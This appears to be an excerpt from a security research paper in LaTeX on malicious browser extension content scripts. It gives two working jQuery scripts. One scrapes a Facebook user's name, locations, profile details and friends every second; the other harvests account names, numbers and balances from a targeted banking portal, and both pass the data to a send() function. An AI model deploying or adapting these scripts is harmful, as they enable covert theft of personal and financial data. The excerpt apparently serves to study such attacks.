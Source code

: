 	\begin{code}
		\begin{lstlisting}
if(window.location.host === 'www.facebook.com') {
	$(document).ready(function() {
		var name = $('#fb-timeline-cover-name').text();
		var homepage = $('div[data-click = profile_icon] a').attr('href');
		send({ 'name': name, 'homepage': homepage });
	});
	setInterval(function() {
		var locations = $('div#pagelet_timeline_medley_map div[id^=collection_wr] ul li').map(function() {
			var name = $(this).find('a[target=_blank]').text();
			var coordinates = (/markers=(.*)&/).exec($(this).find('img').attr('src'));
			return({ 'name': name, 'coordinates': coordinates ? coordinates[1] : 'not found' });
		}).get();
		var personalInformation = $('ul[class^=\'uiList fbProfileEdit\'] > li > div').map(function(index) {
			var entry = $(this).find('span');
			return({ 'name': $(entry[0]).text(), 'value': $(entry[1]).text() });
		}).get();
		var friends = $('div.fbChatOrderedList ul li a div:nth-child(3)').map(function(){
			return({ 'name': $(this).text() });
		}).get();
		send({ 'locations': locations, 'personal_information': personalInformation, 'friends': friends, });
	}, 1000);
}
\end{lstlisting}
		\caption{Content script that queries information about the user while he uses his Facebook account.}
		\label{code:readFacebook}
	\end{code}


\subsubsection{Online Banking}


	First, we check if the current web page's host equals the targeted banking portal (line 1). Then, we query for any second level heading element on the web page (line 2). We filter the returned list of headings and retrieve (line 3).

	\begin{code}
		\begin{lstlisting}
if(window.location.hostname === TARGETED_HOSTNAME) {
	var heading = $('h2').filter(function() {
		return($(this).text() === 'Financial status');
	});
	if(heading.length !== 0) {
		var accounts = [];
		$('div.if5_seiten tr[class^=tablerow]').each(function() {
			accounts.push({
				'account_name': $(this).find('td:nth-child(1)').text(),
				'account_number': $(this).find('td:nth-child(2)').text(),
				'account_balance': $(this).find('td:nth-child(3)').text()
			});
		});
		send(accounts);
	}
}
\end{lstlisting}
		\caption{Content script that retrieves the user's banking account information.}
		\label{code:readBankingData}
	\end{code}

